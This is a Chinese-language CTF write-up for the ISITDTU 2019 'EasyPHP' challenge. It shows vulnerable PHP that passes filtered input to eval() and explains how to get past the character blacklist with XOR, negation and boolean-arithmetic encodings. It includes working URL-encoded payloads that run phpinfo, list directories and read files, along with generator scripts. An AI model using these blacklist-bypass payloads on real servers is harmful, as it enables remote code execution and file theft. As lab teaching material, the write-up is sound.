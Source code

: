# \[ISITDTU 2019]EasyPHP

## \[ISITDTU 2019]EasyPHP

## 考点

* 无字符代码执行

## wp

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

代码执行，最后一个if不允许使用的字符超过12个

然后输入黑名单如下

```
ASCII值0-32
数字0-9 ASCII是48-57
'"`$&.,|[{_defgops ASCII对应39,34,96,36,38,46,44,124,91,123,95,100,101,102,103,111,112,115
```

到这里想到的绕过方式是异或和取反，然后在返回头看一下PHP版本是7.3，那就可以用函数执行的特性结合取反

phpinfo取反为%8F%97%8F%96%91%99%90，PHP7函数执行`(~%8F%97%8F%96%91%99%90)();`，长度为10

看到disable\_functions

![](<../.gitbook/assets/image (1) (1).png>)

但是有字符使用的限制，所以还是要考虑其他方式。以前p牛说过无字符getshell可以用自增、位运算和取反，再偷一波陆队的思路。

现在可以考虑一下自增。PHP在获取HTTP参数时默认是字符串，然后可以用`!`进行布尔类型转换，再用`@`忽略notice输出，就可以把`!!@a`转化为数字1，然后再用`chr()`转换拼接就可以构造任意函数，但是需要用`.`拼接

```
// phpinfo();
(chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a)))();
```

使用异或，如果用爆破的方法就会很慢，偷一波陆队的思路。先确定自己想执行的语句，比如phpinfo，然后定一个参考字符串，让phpinfo和它异或，就可以得到想要的输入，如果得到的结果不符合要求，再微调参考字符串

```
p:%8f^%ff
h:%97^%ff
i:%96^%ff
n:%91^%ff
f:%99^%ff
o:%90^%ff
```

结果是`%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff`，脚本如下：

```php
target = "phpinfo"
standard = 0xff

dicts = {}
for i in target:
    dicts[i] = hex(ord(i)^standard).replace('0x','%')

res = ''
for i in target:
    res = res+dicts[i]
print(res+'^'+"%ff"*len(target))
print(len(set(res+'^'+"%ff"*len(target))))
```

但是这里有个疑问，`%21^%4f`的结果是`n`，但是在测试的时候却不对

![](<../.gitbook/assets/image (18) (1) (1) (1).png>)

加上引号就可以了

![](<../.gitbook/assets/image (31) (1) (1) (1).png>)

用数字也是同样的道理，一开始一直报错，但是把数字用`trim`转换一下就可以了。然后用自增找到数字

![](<../.gitbook/assets/image (14) (1) (1) (1).png>)

```
p:A^1
h:Y^1
i:X^1
n:Z^4
f:W^1
o:Z^5
```

结果是`AYAXZWZ^1111415`

```
(trim((!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-!!%40a-!!%40a-!!%40a))%5e%40AYAXZWZ)();
```

这里如果要求字符种类最少，可以考虑使用%ff的方式，先生成语句，再去尝试找可以替换的字符。如下，共用了16个字符

```
print_r(scandir('.'))
(%8f%8d%96%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff)((%8c%9c%9e%91%9b%96%8d^%ff%ff%ff%ff%ff%ff%ff)((%d1^%ff)));
```

所以要找到可以替换的，即在内部可以互相异或出来的，目标代码用到的字符为`['n', 'p', 'c', 's', 'i', 'a', 't', 'd', 'r', '_', '.']`，写个脚本找一下

```python
s=['n', 'p', 'c', 's', 'i', 'a', 't',  'd', 'r', '_', '.']
for i in s:
    for j in s:
        for k in s:
            if (chr(ord(i)^ord(j)^ord(k)) in s):
                xorRes = i+'^'+j+'^'+k
                if len(set(xorRes)) == 4:
                    print(chr(ord(i)^ord(j)^ord(k))+'='+xorRes)
```

得到的结果对应如下

```
p %8f^%ff
r %8d^%ff
i %96^%ff    %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %8c^%ff    %9c^%ff^%9b^%8b
c %9c^%ff
a %9e^%ff    %8d^%ff^%9c^%8f
d %9b^%ff
. %d0^%ff
```

找一下就可以找到，原则先找必须存在的字符，比如`.`和`_`，那么`a,d,0`也必须存在，那么r就必须存在，同样的，对于字符c和d，在生成的URL编码中也有，所以c和d也必须存在，如果换掉，相当于没有做异或，对于n和i而言，哪个都可以，后续不牵扯到6和1，然后看t和s，他们也是哪个都可以，他们URL编码中的b和c都已经存在，最后是a和p，明显a含有的字符更多，要保留p

```
a=r^c^p
s=c^d^t 
i=c^d^n 
```

最后结果

```
p %8f^%ff
r %8d^%ff
i %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %9c^%ff^%9b^%8b
c %9c^%ff
a %8d^%ff^%9c^%8f
d %9b^%ff
. %d1^%ff
```

`print_r(scandir('.'))`

```
(%8f%8d%9c%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%9b%ff%ff%ff%ff^%ff%ff%91%ff%ff%ff%ff)((%9c%9c%8d%91%9b%9c%8d^%ff%ff%ff%ff%ff%ff%ff^%9b%ff%9c%ff%ff%9b%ff^%8b%ff%8f%ff%ff%91%ff)((%d1^%ff)));
```

![](<../.gitbook/assets/image (13).png>)

`readfile(end(scandir('.')))`

```
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

## 小结

1. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)


